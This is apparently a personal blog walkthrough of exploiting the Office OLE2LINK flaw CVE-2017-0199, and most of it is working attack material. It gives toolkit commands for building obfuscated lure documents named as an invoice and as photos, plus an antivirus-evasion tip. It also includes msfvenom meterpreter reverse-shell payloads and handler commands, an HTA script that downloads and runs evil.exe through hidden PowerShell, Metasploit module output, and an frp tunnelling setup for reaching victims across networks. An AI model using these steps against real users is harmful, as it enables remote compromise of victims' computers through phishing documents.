


Preface
I’m so dizzy writing this after the graduation banquet!
Last month, FireEye disclosed an Office 0day: simply opening a Word document could execute arbitrary code via an HTA script.
It may look a bit messy at first glance, so here’s a simplified overview of how the attack works:
- The attacker sends the target user a Word document that embeds an OLE2LINK object.
- When the user opens the document,
winword.exesends an HTTP request to a remote server and retrieves a malicious HTA (HTML Application) file. Due to incorrect handling of theContent-Typeduring object update over the network, the HTA gets executed.winword.exequeries the HTA file handler via a COM object, which causes Microsoft’s HTA application (mshta.exe) to load and execute the malicious HTA file.
Reproduction
To reproduce it: write an HTA in VBScript, embed the HTA link into a Word document, then open it on the victim machine. I don’t think I need to rewrite the whole walkthrough—this post explains it in great detail: OFFICE OLE2LINK（CVE-2017-0199）漏洞利用详解
Exploit toolkit CVE-2017-0199
git clone https://github.com/bhdresh/CVE-2017-0199
I recommend this tool. You don’t need to set up a server; it directly uses Python’s socket module to simulate one, which is very convenient.
By default it only supports an .exe payload. First generate the document—the extension can be anything: .rtf works, .doc works too.
The -u parameter is the payload URL we use. It’s said that using the .doc extension helps bypass AV.
Add -x to obfuscate the content. For the obfuscation method, check the generate_exploit_obfuscate_rtf function; it mainly obfuscates the payload URI.
python2 cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.92.1/logo.doc -x 1
Generate payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.92.1 LPORT=4444 -f exe > /home/gorgias/Tools/malware/rtf32.exe
Wait for the reverse shell
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.92.1; run"
Deliver the payloads
Run the following command. The default port is 8080. Use -p to set the port manually; use -H to run a specified script.
sudo python2 cve-2017-0199_toolkit.py -H test.hta -M exp -e http://192.168.92.1/shell.exe -l /home/gorgias/Tools/malware/rtf64.exe -p 8000
After the client opens the target document, it will run this script by default:
a=new ActiveXObject("WScript.Shell");
a.run('%SystemRoot%/system32/WindowsPowerShell/v1.0/powershell.exe -windowstyle hidden (new-object System.Net.WebClient).DownloadFile(\'http://yourpayloads.com/evil.exe\', \'c:/windows/temp/shell.exe\'); c:/windows/temp/shell.exe', 0);window.close();
</script>
MSF Module
You can also use the exploit module office_word_hta.
However, it’s limited in real-world scenarios because it’s too automated: from generating the payload to configuring the handler, everything is auto-configured. The callback IP is fixed, so you can’t easily use an internal-network tunneling approach to compromise hosts on an external network without modifying it.
msf > use exploit/windows/fileformat/office_word_hta
Check the options—descriptions are accurate, there aren’t many options, and it’s easy to configure:
msf exploit(office_word_hta) > options
Module options (exploit/windows/fileformat/office_word_hta):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.doc yes The file name.
SRVHOST 0.0.0.0 yes The local host to listen on. This must be an address on the local machine or 0.0.0.0
SRVPORT 8080 yes The local port to listen on.
SSL false no Negotiate SSL for incoming connections
SSLCert no Path to a custom SSL certificate (default is randomly generated)
URIPATH default.hta yes The URI to use for the HTA file
Exploit target:
Id Name
-- ----
0 Microsoft Office Word
Just run / exploit and it will switch to the background as a job. Both the HTA and DOC will be generated for you. Put the DOC on the victim machine and open it.
msf exploit(office_word_hta) > exploit
[*] Exploit running as background job.
msf exploit(office_word_hta) >
[*] Started reverse TCP handler on 192.168.1.177:4444
[+] msf.doc stored at /home/gorgias/.msf4/local/msf.doc
[*] Using URL: http://0.0.0.0:8080/default.hta
[*] Local IP: http://192.168.1.177:8080/default.hta
[*] Server started.
Practical exploitation
Here’s how to tunnel into an internal network for exploitation. First, find a server and install frp to proxy both the local payload and the reverse-shell port.
For installation, see: FRP 使用笔记
frp config:
[rev]
privilege_mode = true
type = tcp
local_ip = 0.0.0.0
local_port = 4445
remote_port = 4445
Use msfvenom to generate the HTA payload. Here we use a PowerShell-type payload and obfuscate it with base64:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=45.32.42.185 LPORT=4445 -e cmd/powershell_base64 -f hta-psh > /home/gorgias/Tools/malware/frp.hta
Wait for the callback:
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 0.0.0.0; set LPORT 4445; run"
Generate the document:
python2 cve-2017-0199_toolkit.py -M gen -w 王师傅的照片.doc -u http://frp.gorgiaxx.me:8000/photo.doc -x 1
If you use a custom HTA, you don’t necessarily need to use an .exe payload. Just listen on the port:
sudo python2 cve-2017-0199_toolkit.py -M exp -H frp.hta -p 8080
 Then have a victim (with a vulnerable Office version installed) open the DOC.
You should then get a session:
Then have a victim (with a vulnerable Office version installed) open the DOC.
You should then get a session:
 


Reference
CVE-2017-0199——首个Microsoft Office RTF漏洞
OFFICE OLE2LINK（CVE-2017-0199）漏洞利用详解
Windows attacks via CVE-2017-0199 – Practical exploitation! (PoC)
 CC BY-NC-SA 4.0
CC BY-NC-SA 4.0